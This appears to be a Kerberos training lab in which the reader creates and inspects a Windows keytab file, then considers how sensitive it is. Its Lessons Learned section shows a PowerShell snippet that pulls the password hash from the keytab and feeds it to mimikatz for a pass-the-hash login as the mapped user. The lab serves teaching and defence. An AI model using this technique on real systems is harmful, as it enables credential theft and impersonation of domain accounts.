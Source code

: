 # Kerberos 101 Labs

## Create a keytab and inspect it

In this lab you will create a Keytab file. We are not be able to use it for something as Windows does not use Keytab files. Linux machines use Keytab files to authenticate with a Windows Active Directory domain.

In the Linux world or non-Microsoft Kerberos world, Keytab files very similar to the Windows trust relationship. When creating a keytab file, the password hash is stored in the on the given account in the KDC's database as well as the Keytab file.

:ballot_box_with_check: Logon to the machine `KerbClient2`.

:ballot_box_with_check: Create a new account in Active Directory and a Keytab file that that account.

```powershell
$ou = New-ADOrganizationalUnit -Name KeyTabTests -PassThru
New-ADUser -Name User1 -Path $ou

ktpass /out c:\krb5.keytab /princ http/SomeWebServer.a.vm.net$@a.vm.net /mapuser User1 /crypto RC4-HMAC-NT /ptype KRB5_NT_PRINCIPAL /pass Somepass2 /target KerbDC2.a.vm.net
```

Even if we cannot use the Keytab file, it is quite interesting to look at it. We can read the Keytab file with `ktpass.exe`.

:ballot_box_with_check: Open the Keytab file suing the following command:

```powershell
ktpass.exe /in C:\krb5.keytab
```

The output looks like this:

```text
Existing keytab:

Keytab version: 0x502
keysize 49 User1$@a.vm.net ptype 1 (KRB5_NT_PRINCIPAL) vno 3 etype 0x17 (RC4-HMAC) keylength 16 (0x39adbe3fcd45600a31b9ee56122b4a87)

WARNING: No principal name specified.
```

:question: Do you see any critical information in the output?

:question: How careful / secure should Keytab files be treated?

<details><summary><h2>Lessons Learned</h2></summary>

:bulb: Kerberos Keytab files are the equivilant to a Windows trust relationship.

:bulb: Because of that, the Keytab file stores the generated password hash which makes it pretty sensitive.

:warning: If someone has access to the Keytab file, using the hash to act as the user the Keytab file is mapped to, it quite easy:

```powershell
$keytab = ktpass.exe /in C:\krb5.keytab 2>&1
$keytab = -join $keytab 

$keytab -match '\(0x(?<Hash>[a-z0-9]+)\)'
$Matches.Hash

C:\mimikatz\x64\mimikatz.exe "sekurlsa::pth /user:install /domain:a /ntlm:$($Matches.Hash) /run:powershell" exit
```

</details>
